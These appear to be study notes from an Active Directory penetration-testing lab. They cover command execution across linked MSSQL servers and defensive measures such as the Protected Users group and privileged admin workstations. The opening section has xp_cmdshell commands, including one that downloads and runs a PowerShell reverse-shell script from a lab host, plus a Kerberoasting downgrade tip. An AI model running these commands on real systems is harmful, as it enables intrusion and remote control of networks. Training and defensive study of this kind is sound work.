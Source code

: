 ## Executing Commands on all machines in the chain in order to see if any of them will give us a result back so we will have cmnd exec. When u find one machine,Use the -QuertyTarget parameter to run Query on a specific instance.(Have in mind that if you have admin privs one a database, you can do several things there, instead of just getting a rev shell and run whoam /all (get caught) and find priv esc)
`Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'"`
`Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql`
`Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.X/Invoke-PowerShellTcp.ps1'')"'`

# What we learned so far
## Reduce the number of Domain Admins in your environment.
## Do not allow or limit login of DAs to any other machine other than the Domain Controllers. If logins to some servers is necessary, do not allow other administrators to login to that machine.
## (Try to) Never run a service with a DA. Credential theft protections(Credential Guard,Protected users group) are not protecting against extracting credential from the registry, only from lsass.
• Set "Account is sensitive and cannot be delegated" for DAs.

## Protected Users Group
• Protected Users is a group introduced in Server 2012 R2 for "better protection
against credential theft" by not caching credentials in insecure ways. A user added
to this group has following major device protections:
– Cannot use CredSSP and WDigest - No more cleartext credentials caching.
– NTLM hash is not cached.
– Kerberos does not use DES or RC4 keys. No caching of clear text cred or long term keys. You can still kerberoast a member of a protected user group because RC4 is controlled by the client because when u request a TGS you can force downgrade to RC4 and the KDC will comply !
• If the domain functional level is Server 2012 R2, following DC protections are
available:
– No NTLM authentication.
– No DES or RC4 keys in Kerberos pre-auth.
– No delegation (constrained or unconstrained)
– No renewal of TGT beyond initial four hour lifetime - Hardcoded, unconfigurable "Maximum
Protected Users Group
• Needs all domain control to be at least Server 2008 or later (because
AES keys).
• Not recommended by MS to add DAs and EAs to this group without
testing "the potential impact" of lock out.
• No cached logon ie.e no offline sign-on.
• Having computer and service accounts in this group is useless as their
credentials will always be present on the host machine.
Privileged Administrative Workstations (PAWs)
• A hardened workstation for performing sensitive tasks like
administration of domain controllers, cloud infrastructure, sensitive
business functions etc.
• Can provides protection from phishing attacks, OS vulnerabilities,
credential replay attacks.
• Admin Jump servers to be accessed only from a PAW, multiple strategies
– Separate privilege and hardware for administrative and normal tasks.